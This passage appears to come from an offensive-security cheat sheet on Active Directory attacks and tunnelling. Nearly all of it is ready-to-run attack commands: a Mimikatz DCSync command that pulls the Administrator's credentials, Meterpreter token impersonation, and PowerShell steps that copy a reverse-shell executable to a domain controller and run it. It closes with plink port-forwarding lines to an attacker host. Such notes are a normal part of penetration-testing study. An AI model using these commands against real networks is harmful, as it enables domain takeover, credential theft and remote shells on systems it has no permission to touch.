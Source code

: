         - Mimikatz: `lsadump::dcsync /user:Administrator`
- [Metasploit incognito extension](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) + PowerShell *[New-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.1)* cmdlet
    
    ```bash
    meterpreter > use incognito
    meterpreter > list_tokens -u
    meterpreter > impersonate_token $DOMAIN\\$USERNAME
    ```
    
    ```powershell
    # Get DC hostname with nslookup
    C:\Windows\system32> nslookup
    > set type=all
    >  _ldap._tcp.dc._msdcs.$DOMAIN
    > exit
    
    PS C:\Windows\system32> $dcsesh = New-PSSession -Computer $DC_HOSTNAME
    # Execute ipconfig on DC
    PS C:\Windows\system32> Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}
    # Copy reverse shell executable to DC
    PS C:\Windows\system32> Copy-Item "C:\Users\Public\reverse_shell.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
    PS C:\Windows\system32> Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\reverse_shell.exe}
    
    ```
    

> **TODO**: speak about ZeroLogon, [NTLM Relay](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html), LLMNR, [`Responder.py`](https://github.com/SpiderLabs/Responder), AD-CS.
 

## 🔁 Port forwarding and Tunneling

### Metasploit `autoroute`

- With a `meterpreter` session: `use multi/manage/autoroute` + `auxiliary/server/socks_proxy`

### `plink.exe`

⚠️The first time we connect to a host, we need to prefix the command with `cmd.exe /c echo y |` because `plink` will attempt to cache the host key in registry.⚠️

```powershell
# Remote port Forwarding
plink.exe -ssh -l $USER -pw $PASSWORD -R $RHOST:$RPORT:$LHOST:$LPORT $RHOST
# Local Port Forwarding
plink.exe -L $VICTIM_IP:$VICTIM_PORT:$ATTACKER_IP:$ATTACKER_PORT kali@$ATTACKER_IP
```
